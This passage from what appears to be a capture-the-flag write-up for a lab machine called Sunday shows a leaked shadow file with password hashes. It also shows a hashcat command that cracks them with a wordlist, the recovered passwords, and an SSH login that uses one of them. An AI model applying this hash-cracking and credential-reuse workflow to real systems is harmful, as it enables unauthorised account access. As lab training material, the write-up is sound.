 ```
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```

### Break with hashcat

Pulling back shadow.backup and the passwd file, and after using unshadow to create an unshadow file, john or hashcat can break both hashes. Here’s what the hashcat output looks like (with status messages cleaned out):

```

$ hashcat -m 7400 sunday.hashes /usr/share/wordlists/rockyou.txt --force
...[snip]...
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
...[snip]...

```

### User Shell - SSH as sammy / user.txt

Armed with sammy’s password, it is now possible to ssh in as sammy:

```

root@kali# ssh -p 22022 sammy@10.10.10.76
Password:
Last login: Sat May  5 20:06:34 2018 from 10.10.14.112
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$

```

sammy has access to user.txt:

```

sammy@sunday:~$ wc -c Desktop/user.txt
33 Desktop/user.txt

sammy@sunday:~$ cat Desktop/user.txt
a3d94980...

```

## Privesc: sammy to root

### Enumeration
